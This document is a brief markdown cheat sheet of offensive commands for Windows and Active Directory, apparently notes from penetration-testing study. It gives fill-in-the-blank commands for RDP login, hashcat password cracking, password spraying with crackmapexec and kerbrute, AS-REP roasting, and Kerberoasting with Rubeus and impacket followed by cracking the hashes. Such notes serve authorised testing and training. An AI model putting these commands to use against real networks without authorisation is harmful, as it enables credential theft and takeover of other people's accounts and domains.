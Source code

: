 ## Nmap 



### Connecting to RDP
```sh
xfreerdp3 /u:<username> /d:<domain> /p:<pwd> /v:<IP>
```
```sh
xfreerdp /cert-ignore /u:<uname> /d:<domain> /p:<pwd> /v:<IP>
```


### Hashcat

https://hashcat.net/wiki/doku.php?id=example_hashes

```sh
hashcat -m <number> hash wordlists.txt --force
```


## Active Directory 

### Password Spraying

*Crackmapexec - check if the output shows 'Pwned!'*
```sh 
crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success
```

```sh Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```

### AS-REP Roasting

*Hash of AS-REP Roastable accounts*
```sh
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request
```

### Kerberoasting

*dumping from compromised windows host, and saving with customname*

```sh
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt --force # cracking hashes
```

